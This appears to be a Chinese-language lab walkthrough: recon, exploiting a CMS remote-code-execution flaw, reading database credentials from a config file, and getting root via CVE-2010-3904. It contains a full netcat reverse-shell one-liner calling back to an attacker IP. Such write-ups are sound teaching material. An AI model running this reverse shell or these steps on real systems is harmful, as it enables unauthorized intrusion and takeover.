# 信息收集

## nmap



# web

主页面就一行字，扫目录得到test目录



test页面下才是cms的主页



继续扫test目录，有robots目录，其中有很多可以访问的页面







还有后台管理员页面，但是无法登录



最后是在主页面的源码下看到版本号的



该版本存在远程代码执行漏洞



成功利用后可以命令执行



可以执行该命令来反弹shell

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 192.168.45.243 80 >/tmp/f
```



# 提权

前面robots目录下就给出了zp-data这个目录，但是其中的文件无法访问，拿到shell

之后去访问一下查看配置文件,其中有数据库账号密码，

`/var/www/test/zp-data/zp-config.php`



本地开放了3306端口。可以在本地连接到数据库



但是得到的这个密码是无法破解的



查看内核搜索内核漏洞，14814这个exp利益失败



上传`linpeas.sh`脚本，查看可以利用的cve,尝试后`cve-2010-3904`可以成功利用，上传到靶机编译之后再运行就可以获取root权限



